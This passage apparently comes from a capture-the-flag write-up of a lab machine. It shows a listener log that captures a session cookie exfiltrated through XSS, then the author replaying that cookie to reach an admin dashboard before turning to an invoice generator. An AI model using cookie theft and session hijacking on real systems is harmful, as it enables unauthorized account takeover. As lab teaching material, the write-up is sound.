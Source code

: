 ```bash
10.129.103.132 - - [23/Jun/2024 11:46:03] code 404, message File not found
10.129.103.132 - - [23/Jun/2024 11:46:03] "GET /err?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZngEsA.kG7K7mmZ6X1QVj68JK0My9D2rO8 HTTP/1.1" 404 -
```


## Dashboard

I added the cookie found with the XSS to my browser and tried loading the dashboard.

![Dashboard](/assets/images/2024/08/IClean/Dashboard.png "Dashboard")

The dashboard had few functionalities. I quickly looked at all of them.

### Invoice Generator

The 'Invoice Generator' requested a few information to create an invoice.
